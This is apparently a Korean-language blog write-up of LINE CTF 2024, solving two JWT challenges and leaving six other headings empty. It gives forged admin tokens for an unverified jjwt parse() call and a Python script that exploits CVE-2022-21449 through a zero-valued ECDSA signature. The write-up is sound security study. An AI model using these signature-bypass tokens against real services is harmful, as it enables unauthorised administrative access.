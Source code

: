 ```yaml
---
layout: post
title: LINECTF 2024
description: CTF Write-up
tags: LINECTF 
category: ctf
---
```

      
### CTFtime: https://ctftime.org/event/2119     
### Official URL: https://linectf.me/	    
       
## Writeup             
       
- <a href="#jalyboy-baby">jalyboy-baby</a>     
- <a href="#jalyboy-jalygirl">jalyboy-jalygirl</a>     
- <a href="#zipviewer-version-citizen">zipviewer-version-citizen</a>      
- <a href="#G0tcha-G0tcha-doggy">G0tcha-G0tcha-doggy</a>      
- <a href="#graphql-101">graphql-101</a>     
- <a href="#Boom-Boom-Hell">Boom-Boom-Hell</a>    
- <a href="#Heritage">Heritage</a>      
- <a href="#hhhhhhref">hhhhhhref</a>      
       
<a id="jalyboy-baby"></a>   
      
# jalyboy-baby    
      
```java
package me.linectf.jalyboy;

import io.jsonwebtoken.*;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import io.jsonwebtoken.Jwts;
import io.jsonwebtoken.security.Keys;

import java.security.Key;
import java.security.KeyPair;

@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    Key secretKey = Keys.secretKeyFor(SignatureAlgorithm.HS256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(secretKey).compact();
        
        try {
            Jwt jwt = Jwts.parser().setSigningKey(secretKey).parse(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```     
      
JWT 토큰은 Header.Payload.Signature로 3가지 형태를 갖는다. `claims.getSubject()` 함수는 Payload의 `sub` key의 value를 반환한다. 즉, Flag를 획득하기 위해선 Payload의 `sub` key 값을 `admin`이 되도록 변경해줘야한다.     

다음으로, JWT 토큰은 Signature를 통해 인증을 수행한다. 하지만, Secret key를 알 수 없기 때문에 일반적으로 Payload를 수정해도 Signature 인증 과정에서 실패하게 된다.    
     
그러나, 해당 문제에서는 `Jwts.parser().setSigningKey(secretKey).parse(j)` 함수를 통해 JWT 토큰을 파싱하고 있다.                 
                 
https://github.com/jwtk/jjwt/issues/280       
         
`jjwt`의 `parse()` 함수에 대한 Github Issue가 존재했는데 Signature 부분을 제외하고 Header.Payload. 형태로 토큰 값을 전달할 경우, 인증 과정을 무시하고 토큰을 파싱한다는 것이었다.      

즉, `eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.` 값을 토큰 값으로 넘겨주면 플래그를 획득할 수 있다.       
       
### Exploit Code
      
<a href="/assets/images/ctf/2024/linectf/jalyboy-baby/flag.jpg" width="700px"></a>        
      
### Flag
LINECTF{337e737f9f2594a02c5c752373212ef7}
                  


<a id="jalyboy-jalygirl"></a>   
      
# jalyboy-jalygirl      
      
```java
package me.linectf.jalyboy;

import io.jsonwebtoken.*;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import io.jsonwebtoken.Jwts;
import io.jsonwebtoken.security.Keys;

import java.security.Key;
import java.security.KeyPair;

@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    KeyPair keyPair = Keys.keyPairFor(SignatureAlgorithm.ES256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(keyPair.getPrivate()).compact();

        try {
            Jws<Claims> jwt = Jwts.parser().setSigningKey(keyPair.getPublic()).parseClaimsJws(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```      
       
`jalyboy-baby` 문제와 다른 점은 `ES256` 알고리즘으로 비대칭키를 생성하고 `parseClaimsJws()` 함수를 통해 토큰 인증을 수행하고 있다. 
       
`parseClaimsJws()` 함수는 `parse()` 함수와 달리 `Signature` 검증을 수행하여 인증 여부를 확인한다.     
       
```gradle
dependencies {
	implementation 'org.springframework.boot:spring-boot-starter-freemarker'
	implementation 'org.springframework.boot:spring-boot-starter-web'
	annotationProcessor 'org.springframework.boot:spring-boot-configuration-processor'
	testImplementation 'org.springframework.boot:spring-boot-starter-test'
	implementation 'io.jsonwebtoken:jjwt-api:0.11.2'
	runtimeOnly 'io.jsonwebtoken:jjwt-impl:0.11.2',
			// Uncomment the next line if you want to use RSASSA-PSS (PS256, PS384, PS512) algorithms:
			//'org.bouncycastle:bcprov-jdk15on:1.60',
			'io.jsonwebtoken:jjwt-jackson:0.11.2' // or 'io.jsonwebtoken:jjwt-gson:0.11.2' for gson
}
```    
`build.gradle` 파일의 `dependencies`를 확인해보면, `jjwt-jackson:0.11.2` 버전을 사용하고 있음을 알 수 있다.     

해당 버전에서 이슈가 존재하는지 확인해보았다.    

CVE-2022-21449                        
https://github.com/jwtk/jjwt/issues/726      
              
`ECDSA Signature`는 `r`,`s` 값으로 구성되어있다. 하지만, `r = s = 0` 일 경우, 인증이 우회되는 문제가 발생한다.          
              
`r`,`s` 값이 0인 상태로 `Signature`를 생성하면 `.MAYCAQACAQA` 값이 만들어지게 되며, Header.Payload.MAYCAQACAQA 형태의 JWT 토큰 값을 넘겨주면 인증 우회가 가능해진다.      
        
### Exploit Code      
```python
import json 
from base64 import urlsafe_b64encode
# import hashlib
# import hmac 

header = {"alg": "ES256"}
payload = {"sub": "admin"}

contents = urlsafe_b64encode(json.dumps(header, separators=(",",":")).encode()).decode("UTF-8").strip("=") \
+ "." + urlsafe_b64encode(json.dumps(payload, separators=(",",":")).encode()).decode("UTF-8").strip("=")

contents = contents.encode().decode("UTF-8")

# key = "111"
# sig = urlsafe_b64encode(hmac.new(key.encode(), contents.encode(), hashlib.sha256).digest()).decode("UTF-8").strip("=")

print(contents+".MAYCAQACAQA")
# eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.MAYCAQACAQA
```
### Flag      
LINECTF{abaa4d1cb9870fd25776a81bbd278932}                  
             
<a id="zipviewer-version-citizen"></a>   
      
# zipviewer-version-citizen      
           
<a id="G0tcha-G0tcha-doggy"></a>   
      
# G0tcha-G0tcha-doggy      
           
<a id="graphql-101"></a>   
      
# graphql-101      
           
<a id="Boom-Boom-Hell"></a>     
      
# Boom-Boom-Hell      
           
<a id="Heritage"></a>       
      
# Heritage         
           
<a id="hhhhhhref"></a>   
      
# hhhhhhref      
           